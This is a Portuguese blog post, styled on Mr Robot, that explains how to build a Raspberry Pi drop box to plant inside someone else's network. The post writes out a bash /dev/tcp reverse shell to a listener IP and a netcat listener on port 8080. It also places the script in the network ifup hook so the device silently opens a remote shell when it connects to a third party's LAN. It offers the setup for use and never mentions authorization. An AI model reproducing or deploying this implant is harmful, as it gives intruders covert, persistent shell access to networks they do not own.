 ```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr\_robot, raspberry, hack, reverse\_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não é exetamente igual as condições encontradas por Elliot na série no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais fiel ao conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1. Baixar o ![Kali linux para arm](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

![offensive security]({{ site.url }}/images/offensive-sec.png){: .center-image}

2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3. Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4. Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto que nos desviamos um pouco do artigo que utilizamos como base.
No lugar de utilizar teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br

